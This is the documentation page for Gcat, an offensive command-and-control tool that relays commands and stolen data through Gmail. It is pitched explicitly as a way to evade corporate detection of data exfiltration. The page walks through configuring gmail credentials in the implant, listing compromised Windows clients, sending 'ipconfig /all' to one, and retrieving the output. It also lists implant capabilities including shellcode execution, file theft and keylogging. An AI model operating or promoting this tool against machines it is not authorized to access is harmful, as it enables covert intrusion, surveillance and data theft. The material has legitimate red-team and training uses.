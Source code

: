 
Gcat
=======

Website
-------

<https://github.com/byt3bl33d3r/gcat>

Description
-----------

I'm sure we're all aware of the venerable netcat.  Gcat is a close cousin
to netcat.  Rather than simply piping communications over plaintext tcp; gcat
communicates using gmail.  The idea here is that many companies might detect
suspicious data exfiltration.  Or might block direct communications out. 
But if these companies allow their users to access gmail, we can pipe out
through that.


Install Location
----------------

`/opt/gcat/`

Usage
-----

To run the script, first cd to the gcat directory.

`~$` **`cd /opt/gcat`**

And run the application

`/opt/gcat$` **`python ./gcat.py`**

This will show you the help dialog.

		
															dP   
													88   
						.d8888b. .d8888b. .d8888b. d8888P 
						88'  `88 88'  `"" 88'  `88   88   
						88.  .88 88.  ... 88.  .88   88   
						`8888P88 `88888P' `88888P8   dP   
							.88                          
						d8888P  
		
		
						.__....._             _.....__,
							.": o :':         ;': o :".
							`. `-' .'.       .'. `-' .'   
							`---'             `---'  
		
					_...----...      ...   ...      ...----..._
				.-'__..-''----    `.  `"`  .'    ----'''-..__`-.
				'.-'   _.--'''       `-._.-'       ''''--._   `-.`
				'  .-"'                  :                  `"-.  `
				'   `.              _.'"'._              .'   `
						`.       ,.-'"       "'-.,       .'
						`.                           .'
					jgs    `-._                   _.-'
								`"'--...___...--'"`
		
							...IM IN YUR COMPUTERZ...
		
								WATCHIN YUR SCREENZ
		
		optional arguments:
		-h, --help            show this help message and exit
		-v, --version         show program's version number and exit
		-id ID                Client to target
		-jobid JOBID          Job id to retrieve
		
		-list                 List available clients
		-info                 Retrieve info on specified client
		
		Commands:
		Commands to execute on an implant
		
		-cmd CMD              Execute a system command
		-download PATH        Download a file from a clients system
		-upload SRC DST       Upload a file to the clients system
		-exec-shellcode FILE  Execute supplied shellcode on a client
		-screenshot           Take a screenshot
		-lock-screen          Lock the clients screen
		-force-checkin        Force a check in
		-start-keylogger      Start keylogger
		-stop-keylogger       Stop keylogger
		
		Meow!
		




Gcat works in two parts.		

Example 1: Deploying an Implant
-------------------------------

Configuring gcat and its implant is quite simple.  You need to have a
gmail account that you plan to use.  Then simply pop the username and
password into the two scripts gcat.py and implant.py as the "gmail_user"
and "gmail_pwd" variables.  

		#########################################
		gmail_user = 'gcat.is.the.shit@gmail.com'
		gmail_pwd = 'veryc00lp@ssw0rd'
		server = 'smtp.gmail.com'
		server_port = 587
		#########################################

After you have set both gcat.py and implant.py to be properly configured
you can then run the implant on a target machine.

It's just a simple python script.

Example 2: Running a Command & Retrieving Output
------------------------------------------------

NOTE: Make sure that you have configured your gmail account to work with "less secure apps."  To get instructions on how to do that (it's easy, I promise) go here: https://support.google.com/accounts/answer/6010255?hl=en


Once you have an implant or two running you can control them from gcat.py.
To start we will want to get the list of all attached implants and their ids.
To do this run gcat.py with the -list option.

`/opt/gcat$` **`python ./gcat.py -list`**

		f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
		90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86

Now that we've got a list of attached implants, let's send a command to one.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'`**

		[*] Command sent successfully with jobid: SH3C4gv

Outstanding.  As you can see, we had to specify the id in conjunction with 
the issuance of our command.  This might seem weird to you.  It certainly is
different from traditional netcat.  But think of the id as something akin
to the traditional host.

We do need to send another request in order to retrieve the output from
the command.  That's what the job id is for.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv`**

		DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
		JOBID: SH3C4gv
		FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
		CMD: 'ipconfig /all'
		
		
		Windows IP Configuration
		
				Host Name . . . . . . . . . . . . : unknown-2d44b52
				Primary Dns Suffix  . . . . . . . : 
				Node Type . . . . . . . . . . . . : Unknown
				IP Routing Enabled. . . . . . . . : No
				WINS Proxy Enabled. . . . . . . . : No
		
		-- SNIP -

There you go.  That's the basic usage of Gcat.
